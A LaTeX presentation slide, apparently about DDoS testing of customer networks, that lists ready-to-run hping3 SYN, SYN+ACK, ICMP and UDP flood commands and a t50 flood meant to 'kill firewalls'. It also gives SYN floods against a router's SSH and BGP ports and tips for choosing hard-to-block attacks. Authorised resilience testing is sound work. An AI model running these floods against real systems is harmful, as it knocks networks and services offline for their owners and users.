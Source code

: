\documentclass[Screen16to9,17pt]{foils}
\begin{document}

The minimal run contains at least these:
\begin{list2}
\item SYN flood: \verb+hping3 -q -c 1000000  -i u60 -S -p 80 $CUST_IP &+
\item SYN+ACK: \verb+hping3 -q -c 1000000  -i u60 -S -A -p 80 $CUST_IP &+
\item ICMP flood: \verb+hping3 -q -c 1000000 --flood -1 $CUST_IP &+
\item UDP flood: \verb+hping3 -q -c 1000000 --flood -2 $CUST_IP &+
\item Near end of test we also throw in the joker to {\bf kill firewalls}\\
\verb+t50 --flood --protocol T50 $CUST_IP+
\end{list2}

While testing I use the tool \verb+ifpps+ tool from the Netsniff-ng package  to monitor sending speed, or you can use your router/switch -- Junos \verb+monitor interface+



Further hints:
\begin{list2}
\item Vary the speed using the packet interval \verb+-i u60+ up/down
\item Add more processes and monitor change in responses
\item Use flooding with caution, runs max speeeeeeeeeeeed \smiley
\item TCP testing use a port which is allowed through the network, often 80/443
\item Focus on attacks which are hard to block, example TCP SYN must be allowed in
\item Also if you found devices like routers in front of environment\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 22 $ROUTER_IP+ Secure Shell\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 179 $ROUTER_IP+ BGP routing protocol\\
(Hint: routers should use router protection filters!)
\end{list2}

I start using a single test-case at a time, but later run multiple in parallel


My favourite tools have not always supported IPv6, which is a shame
\end{document}
